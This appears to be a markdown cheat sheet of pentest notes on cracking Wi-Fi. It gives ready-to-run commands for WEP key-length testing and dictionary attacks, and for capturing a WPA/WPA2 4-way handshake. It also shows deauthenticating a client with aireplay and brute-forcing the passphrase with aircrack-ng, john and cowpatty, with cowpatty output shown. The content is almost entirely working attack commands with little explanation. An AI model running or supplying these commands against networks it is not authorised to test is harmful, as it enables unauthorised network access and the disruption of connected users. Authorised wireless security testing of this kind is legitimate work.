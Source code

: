 #### Tests & Bruteforce

```bash
# w = hex key, testing if len(key) = 13
airdecap-ng -w $(python3 -c "import sys;sys.stdout.buffer.write(b'A'*13)"|xxd -ps) -b  <BSSID> wep-01.cap

# If len fails:
#Invalid WEP key length. [5,13,16,29,61]
#"airdecap-ng --help" for help.
```

```bash
# -a 1 = wep (default)
# -k = korek attack (inspired by FMS), -z = ptw attack (default)

# -n = length key. If len(hex_key)=13 then n = 128
aircrack-ng -w rockyou.txt -b <BSSID> -n 128 wep-01.cap

# set interface back to managed mode
# airodump-ng stop wlan1mon
```

### WPA/WPA2 (4way handshake with CCMP = AES 128 CBC-MAC)

- https://www.aircrack-ng.org/doku.php?id=cracking_wpa
- https://www.wifi-professionals.com/2019/01/4-way-handshake

#### Capture 4-way handshake, Deauth & Bruteforce

**Aircrack**

```bash
#airmon-ng stop wlan1mon
#airmon-ng start wlan1 <CHANNEL>

airodump-ng --bssid <BSSID> -w wpa wlan1mon #find bssid (last command) , -w = prefix name
aireplay -0 1 -a <BSSID> -c <STATION MAC> wlan1mon

# -a 2 = wpa-psk
aircrack-ng -a 2 -w rockyou.txt -b <BSSID> wpa-01.cap
```

**Bettercap**

```bash
sudo docker run -it --privileged --rm --net=host bettercap/bettercap -iface wlanx
#wifi.recon help

wpapcap2john bettercap-wifi-handshakes.pcap
```

#### Tests and Bruteforce

```bash
cowpatty -r hs/handshake_RepeatSalon.cap -f ~/SecLists/Passwords/darkc0de.txt -s RepeatSalon -vv
cowpatty 4.8 - WPA-PSK dictionary attack. <jwright@hasborg.com>

Collected all necessary data to mount crack against WPA2/PSK passphrase.

AA is : ...
SPA is : ...
snonce is: ...
anonce is: ...
keymic is: ...
eapolframe is: ...
```
